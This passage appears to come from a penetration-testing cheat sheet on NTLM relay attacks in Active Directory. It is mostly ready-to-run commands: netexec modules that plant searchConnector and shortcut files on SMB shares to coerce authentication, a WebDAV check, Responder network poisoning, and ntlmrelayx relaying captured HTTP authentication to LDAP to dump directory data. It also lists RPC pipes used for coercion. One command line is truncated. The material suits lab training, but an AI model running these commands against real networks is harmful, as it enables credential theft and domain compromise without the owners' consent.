 Or use nxc to create and drop the file

```bash
nxc smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=smb FILENAME=@secret
```

After user connects WebClient service will start

```bash
nxc smb 172.16.117.0/24 -u zenpc$ -p pass123 -M webdav
```

If found a host with WebDav enabled, perform HTTP authentication

```bash
smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=NOAREALNAME@8008 NAME=important
```

Finally start responder to poison and nltmrelay to relay the HTTP authentcation to LDAP.

```bash
# Poison
sudo python3 Responder.py -I ens192

# Ntlmrelay 
ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-smb-server --http-port 8008 --no-da --no-acl --no-validate-privs --lootdir ldap_dump
```

### <mark style="color:yellow;">Authentication Coercion</mark>

1. Authenticate to a remote machine with valid creds, like over SMB.
2. Connect to a remote SMB pipe like `\PIPE\netdfs`, `\PIPE\efsrpc`, `\PIPE\lsarpc`
3. Bind to an RPC protocol to call its methods on target.

#### With nxc drop searchConnector file&#x20;

```bash
nxc smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=Testing FILENAME=@secret
```

#### Check if WebDav is enabled

```bash
# Check if enabled
crackmapexec smb 172.16.117.60 -u zenpc$ -p pass123 -M webdav

# Poison
sudo python3 Responder.py -I ens192

# Ntlmrelay 
ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-smb-server --http-port 8008 --no-da --no-acl --no-validate-privs --lootdir ldap_dump
```
